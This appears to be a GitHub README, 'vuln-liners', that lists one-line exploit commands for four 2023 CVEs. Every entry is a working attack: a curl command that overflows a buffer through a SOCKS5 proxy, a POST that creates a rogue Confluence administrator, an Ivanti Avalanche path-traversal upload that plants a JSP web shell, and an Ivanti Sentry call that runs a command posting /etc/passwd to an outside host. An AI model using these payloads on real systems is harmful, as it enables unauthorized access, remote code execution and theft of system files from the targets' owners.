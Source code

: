# vuln-liners
One line vulnerabilities

## CVE-2023-38545
`curl -vvv -x socks5h://localhost:9050 $(python3 -c "print(('A'*10000), end='')")`

## CVE-2023-22515 (Confluence Broken Access Control)
`curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action`

## CVE-2023-32563 (Ivanti Avalanche Pre-auth)
`curl -v http://x.x.x.x:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" <<<'<%Runtime.getRuntime().exec(request.getParameter("c"));%>' -: -k https://x.x.x.x:8443/x.jsp -d c=mspaint.exe`

## CVE-2023-38035 (Ivanti Sentry API Authentication Bypass)
`python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://x.x.x.x', 'isRoot': True}, None)"`
